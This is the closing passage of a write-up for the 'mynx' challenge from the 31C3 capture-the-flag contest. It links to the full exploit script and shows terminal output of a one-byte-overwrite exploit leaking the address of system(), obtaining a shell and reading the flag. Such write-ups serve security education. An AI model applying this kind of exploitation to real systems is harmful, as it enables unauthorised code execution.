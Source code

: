 And that's it, reliable code execution from a one byte overwrite. Find the full exploit code [here](https://github.com/kitctf/writeups/blob/master/31c3-ctf/mynx_exploit.py).

    > ./exploit.py
    exploiting 1st time: leaking addr of system...
    system() @ 0xf761e2b0
    exploiting 2nd time: calling into system()...
    pwned!
    id
    uid=1000(user) gid=1000(user) groups=1000(user)
    cd /home/user
    cat flag
    31C3_i_like_weird_allocators


Got feedback, questions, comments? Hit me up on [twitter](https://twitter.com/5aelo) or IRC (saelo on freenode) :)
